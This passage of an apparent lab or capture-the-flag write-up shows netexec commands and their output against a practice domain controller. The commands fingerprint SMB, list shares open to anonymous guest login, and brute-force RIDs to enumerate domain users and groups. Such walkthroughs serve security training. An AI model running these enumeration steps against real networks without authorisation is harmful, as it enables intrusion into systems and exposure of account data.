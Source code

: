 ```console
➜  retro nxc smb $ip
SMB         10.10.88.241    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False)
```

Another check reveals that we have anonymous access to a number of shares, including the `Trainees` share, as well as the `IPC$` share. 

```console
➜  retro nxc smb $ip -u 'anonymous' -p '' --shares
SMB         10.10.88.241    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False)
SMB         10.10.88.241    445    DC               [+] retro.vl\anonymous: (Guest)
SMB         10.10.88.241    445    DC               [*] Enumerated shares
SMB         10.10.88.241    445    DC               Share           Permissions     Remark
SMB         10.10.88.241    445    DC               -----           -----------     ------
SMB         10.10.88.241    445    DC               ADMIN$                          Remote Admin
SMB         10.10.88.241    445    DC               C$                              Default share
SMB         10.10.88.241    445    DC               IPC$            READ            Remote IPC
SMB         10.10.88.241    445    DC               NETLOGON                        Logon server share
SMB         10.10.88.241    445    DC               Notes
SMB         10.10.88.241    445    DC               SYSVOL                          Logon server share
SMB         10.10.88.241    445    DC               Trainees        READ
```

With read access to the `IPC$` share, we can use the `--rid-brute` method in `netexec` to get a list of domain user and group objects. 

```console
➜  retro nxc smb $ip -u 'anonymous' -p '' --rid-brute
SMB         10.10.88.241    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False)
SMB         10.10.88.241    445    DC               [+] retro.vl\anonymous: (Guest)
SMB         10.10.88.241    445    DC               498: RETRO\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.88.241    445    DC               500: RETRO\Administrator (SidTypeUser)
SMB         10.10.88.241    445    DC               501: RETRO\Guest (SidTypeUser)
SMB         10.10.88.241    445    DC               502: RETRO\krbtgt (SidTypeUser)
SMB         10.10.88.241    445    DC               512: RETRO\Domain Admins (SidTypeGroup)
SMB         10.10.88.241    445    DC               513: RETRO\Domain Users (SidTypeGroup)
SMB         10.10.88.241    445    DC               514: RETRO\Domain Guests (SidTypeGroup)
SMB         10.10.88.241    445    DC               515: RETRO\Domain Computers (SidTypeGroup)
SMB         10.10.88.241    445    DC               516: RETRO\Domain Controllers (SidTypeGroup)
SMB         10.10.88.241    445    DC               517: RETRO\Cert Publishers (SidTypeAlias)
SMB         10.10.88.241    445    DC               518: RETRO\Schema Admins (SidTypeGroup)
SMB         10.10.88.241    445    DC               519: RETRO\Enterprise Admins (SidTypeGroup)
SMB         10.10.88.241    445    DC               520: RETRO\Group Policy Creator Owners (SidTypeGroup)
SMB         10.10.88.241    445    DC               521: RETRO\Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.88.241    445    DC               522: RETRO\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.10.88.241    445    DC               525: RETRO\Protected Users (SidTypeGroup)
SMB         10.10.88.241    445    DC               526: RETRO\Key Admins (SidTypeGroup)
SMB         10.10.88.241    445    DC               527: RETRO\Enterprise Key Admins (SidTypeGroup)
SMB         10.10.88.241    445    DC               553: RETRO\RAS and IAS Servers (SidTypeAlias)
SMB         10.10.88.241    445    DC               571: RETRO\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.10.88.241    445    DC               572: RETRO\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.10.88.241    445    DC               1000: RETRO\DC$ (SidTypeUser)
SMB         10.10.88.241    445    DC               1101: RETRO\DnsAdmins (SidTypeAlias)
SMB         10.10.88.241    445    DC               1102: RETRO\DnsUpdateProxy (SidTypeGroup)
```
